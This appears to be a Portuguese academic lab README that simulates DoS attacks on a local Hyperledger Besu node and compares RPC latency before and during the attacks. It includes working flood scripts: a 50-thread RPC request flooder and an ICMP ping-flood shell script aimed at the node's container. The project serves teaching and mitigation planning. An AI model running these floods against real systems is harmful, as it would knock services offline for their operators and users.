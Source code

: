 ```markdown
# 🧠 Projeto de Simulação de Ataque DoS/DDoS em Hyperledger Besu

Este projeto tem como objetivo demonstrar de forma **controlada e educativa** como **ataques de negação de serviço (DoS e DDoS)** podem afetar o desempenho de uma **rede blockchain privada** baseada em **Hyperledger Besu**, observando especialmente o impacto no **tempo médio de resposta das chamadas RPC**.

> ⚠️ **Aviso:** Este projeto é exclusivamente para fins acadêmicos e laboratoriais. Não deve ser utilizado em ambientes de produção nem contra redes públicas.

---

## 🚀 Objetivos do Projeto

- Montar uma rede privada Hyperledger Besu (um nó simples ou uma pequena rede com 2-3 nós).
- Gerar tráfego excessivo para simular ataques:
  - **Ataque à camada de rede:** inundação de pacotes (DoS de rede).
  - **Ataque à camada de aplicação:** sobrecarga via requisições RPC simultâneas (DoS de aplicação).
- Medir o impacto:
  - Aumento no **tempo médio de resposta RPC**.
  - Queda no throughput e na disponibilidade do nó.

---

## ⚙️ Estrutura do Projeto

```

projeto-dos-besu/
│
├── docker-compose.yml       # Configuração do nó Hyperledger Besu
├── config/
│   ├── genesis.json          # Arquivo de configuração da blockchain privada
│   └── besu-config.toml      # Configurações personalizadas do Besu
│
├── scripts/
│   ├── stress_rpc.py         # Script para gerar carga RPC (camada de aplicação)
│   ├── ping_flood.sh         # Script simples de DoS de rede (ping flood)
│   └── metrics_rpc.py        # Script para medir o tempo médio de resposta RPC
│
└── README.md

````

---

## 🧩 Pré-requisitos

- Docker e Docker Compose instalados.
- Python 3.10+ com bibliotecas `requests`, `time`, e `statistics`.
- Permissão de administrador para executar Docker (`sudo`).

---

## 🛠️ Como Executar o Projeto

### 1. Inicie o nó Hyperledger Besu

```bash
sudo docker compose up -d
````

Verifique os logs:

```bash
sudo docker logs -f besu-node
```

---

### 2. Teste a comunicação RPC

Com o nó rodando, teste a API RPC:

```bash
curl -X POST --data '{"jsonrpc":"2.0","method":"eth_blockNumber","params":[],"id":1}' http://localhost:8545
```

Se retornar um número de bloco, o nó está operacional ✅

---

### 3. Medir tempo médio de resposta RPC (sem ataque)

Execute:

```bash
python3 scripts/metrics_rpc.py
```

Saída esperada:

```
Tempo médio de resposta RPC: 0.045 segundos
```

---

### 4. Simular ataque DoS na camada de aplicação

Abra outro terminal e rode:

```bash
python3 scripts/stress_rpc.py
```

Esse script envia centenas de requisições RPC simultâneas (por exemplo, `eth_blockNumber`).

---

### 5. Simular ataque à camada de rede

Em outro terminal (ou container):

```bash
bash scripts/ping_flood.sh
```

> Este script envia pacotes ICMP em alta frequência ao container do Besu (somente para ambiente de teste).

---

### 6. Medir impacto

Execute novamente o medidor de desempenho:

```bash
python3 scripts/metrics_rpc.py
```

Compare os tempos **antes** e **durante o ataque**.

Exemplo de resultado:

| Situação        | Tempo médio RPC (s) | Observação                    |
| --------------- | ------------------- | ----------------------------- |
| Normal          | 0.045               | Resposta estável              |
| Sob ataque RPC  | 0.487               | Aumento de 980%               |
| Sob ataque ICMP | 1.102               | Queda acentuada de desempenho |

---

## 📊 Scripts Importantes

### `metrics_rpc.py`

Mede o tempo médio de resposta de requisições RPC.

```python
import requests, time, statistics

url = "http://localhost:8545"
payload = {"jsonrpc": "2.0", "method": "eth_blockNumber", "params": [], "id": 1}

tempos = []
for _ in range(30):
    inicio = time.time()
    requests.post(url, json=payload)
    tempos.append(time.time() - inicio)

print(f"Tempo médio de resposta RPC: {statistics.mean(tempos):.3f} segundos")
```

---

### `stress_rpc.py`

Simula ataque de sobrecarga RPC.

```python
import requests, threading

url = "http://localhost:8545"
payload = {"jsonrpc": "2.0", "method": "eth_blockNumber", "params": [], "id": 1}

def flood():
    while True:
        try:
            requests.post(url, json=payload, timeout=1)
        except:
            pass

for _ in range(50):  # 50 threads simultâneas
    threading.Thread(target=flood, daemon=True).start()
```

---

### `ping_flood.sh`

Ataque de inundação ICMP (rede).

```bash
#!/bin/bash
IP_CONTAINER=$(sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' besu-node)
echo "Enviando pacotes ICMP para $IP_CONTAINER"
ping -f -s 1400 $IP_CONTAINER
```

---

## 📚 Conceitos Envolvidos

* **Ataque DoS (Denial of Service):** saturação de recursos de um nó, impedindo o funcionamento normal.
* **Ataque DDoS (Distributed DoS):** múltiplas origens simultâneas causam sobrecarga massiva.
* **Camada de rede:** ataques baseados em pacotes (ICMP, TCP SYN Flood).
* **Camada de aplicação:** ataques via APIs ou RPCs sobrecarregando o processamento.

---

## 🧠 Conclusão

Esse projeto demonstra, de forma simples, como a **resiliência e desempenho** de uma rede **Hyperledger Besu** podem ser comprometidos sob ataques de negação de serviço.
Os resultados podem ser usados para planejar **mitigações** (como firewalls, rate limiting e load balancing).

---

## 👨‍💻 Autor

**João Filho**
Residente em Cibersegurança – PUCPR
Foco: GRC, Blockchain e Segurança Cibernética
📧 contato: [seu-email@exemplo.com](mailto:seu-email@exemplo.com)